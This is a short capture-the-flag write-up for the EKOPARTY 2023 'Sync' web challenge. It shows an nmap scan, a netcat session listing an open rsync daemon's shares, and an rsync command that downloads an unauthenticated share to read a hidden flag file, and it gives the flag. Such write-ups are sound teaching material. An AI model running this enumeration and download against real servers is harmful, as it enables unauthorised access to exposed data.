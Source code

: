 ```yaml
---
title: EKOPARTY 2023 - Sync
date: Fri Nov  3 10:47:53 PM +04 2023
categories: [Writeup]
tags: [ctf,ekoparty,ekoparty2023,web,rsync]
---
```


## Description

![sync-1](/assets/images/ekoparty/2023/sync-1.png)

## Solution

Identify port:

```bash
└─$ nmap go.ctf.site -p 10873 -Pn -sC -sV -A 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 22:46 +04
Nmap scan report for go.ctf.site (3.95.96.204)
Host is up (0.15s latency).
rDNS record for 3.95.96.204: ec2-3-95-96-204.compute-1.amazonaws.com

PORT      STATE SERVICE VERSION
10873/tcp open  rsync   (protocol version 31)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.55 seconds
```

[Hacktricks: 873 pentesting rsync](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync)

```bash
└─$ nc -v go.ctf.site 10873            
go.ctf.site [3.95.96.204] 10873 open
@RSYNCD: 31.0 
@RSYNCD: 31.0 # <--- Send
#list         # <--- Show available shared folders
code           	MJ Code
@RSYNCD: EXIT
                                                                                            
└─$ rsync -av rsync://go.ctf.site:10873/code ./code # Download      
receiving incremental file list
created directory ./code
./
.flag.txt

sent 46 bytes  received 151 bytes  26.27 bytes/sec
total size is 31  speedup is 0.16
                                                                                           
└─$ la code # Flag is hidden file
Permissions Size User  Date Modified Name
.rw-rw-r--    31 woyag 22 Oct 20:24   .flag.txt
                                                                                            
└─$ cat ./code/.flag.txt # Profit
EKO{rsync_&_critical_inf0_FTW}                                                                                     
```

> Flag: EKO{rsync_&_critical_inf0_FTW}
{: .prompt-tip }